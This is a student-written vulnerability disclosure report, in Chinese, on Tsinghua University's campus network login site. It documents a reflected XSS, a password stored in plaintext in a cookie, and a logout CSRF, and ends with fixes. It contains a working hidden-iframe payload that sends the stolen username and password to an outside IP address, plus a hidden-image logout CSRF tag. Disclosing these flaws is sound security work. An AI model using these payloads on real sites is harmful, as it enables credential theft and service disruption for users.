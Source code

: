 # net.tsinghua.edu.cn的漏洞利用

> 计42 靳子豪
>
> 计64 翁家翌

## 漏洞概览

1. net.tsinghua.edu.cn允许跳转url，格式为`http://net.tsinghua.edu.cn/wireless/?url=xxx`，url选项可以插入javascript代码并执行，造成了反射型XSS
2. net.tsinghua.edu.cn如果之前点击了`保存密码`的选项，则浏览器会存储明文用户名和密码至cookie中，格式为`tunet=username%0Apassword`；
3. `net.tsinghua.edu.cn/do_login.php?action=logout`未对用户身份进行认证，造成了CSRF

## 攻击代码

```HTML
<iframe src="http://net.tsinghua.edu.cn/wireless/?url=javascript:(cdt=('%3B '+document.cookie).split('%3B tunet=').pop().split('%3B').shift().split('%25'+'0A'),xmlHttp=new XMLHttpRequest(), xmlHttp.open('GET','http://183.173.32.40/static.php?usr='+cdt[0]+'%26dwp='+cdt[1],false),xmlHttp.send(null))" style="display:none"></iframe>
```

使用隐藏的iframe插入到**任意**网站W中，如果受害者从清华校内网访问了网站W，并且在设备中使用过net.tsinghua.edu.cn的网页版保存密码选项，则该恶意代码会窃取账号和密码发送至攻击者的网站服务器中。

该攻击代码只会对浏览器造成攻击（如果浏览器保存了密码），对于使用客户端进行登录的用户则不会被攻击。

```HTML
<img src="http://net.tsinghua.edu.cn/do_login.php?action=logout" style="display:none"></img>
```

使用隐藏的\<img\>标签插入到**任意**网站、论坛、邮件中，使受害者向`http://net.tsinghua.edu.cn/do_login.php?action=logout`发出http请求，可以使用户登出校园网，失去外网连接。

## 实例演示

见`net2.mp4`

## 实际测试

在**任意**浏览器的任意被插入恶意代码的网站均成功。还能够发送钓鱼邮件，一旦受害者点击邮件中的连接，后果不堪设想。

## 可能的修复方案

1.
    * 修改`http://net.tsinghua.edu.cn/wireless/?url=xxx`的登录后自动跳转功能，将目前的JavaScript前端跳转（`window.location=`）改为PHP的后端跳转（`header('Location: ');`），避免用户输入的跳转地址被注入到页面中。
    * 或
    * 对`url`参数进行过滤，过滤掉`javascript:`（或所有非`http:`）的URL Scheme
2.
    * 强制使用https访问`net.tsinghua.edu.cn`，防止该cookie被中间人截获
    * 将保存用户密码的cookie设置为`httpOnly`，防止JavaScript脚本读取该cookie内容
    * 或
    * 直接禁用“记住密码”功能，主流浏览器内置的“记住密码”功能也可达到同样效果
3.
    * 在断开连接时增加对用户的身份认证
    * 或
    * 直接禁用`net.tsinghua.edu.cn`的“断开连接”功能，让用户转到`usereg.tsinghua.edu.cn`来下线连接

## 一个小小的要求

修完漏洞之后能不能给一些奖励比如纸质证书证明之类的……？
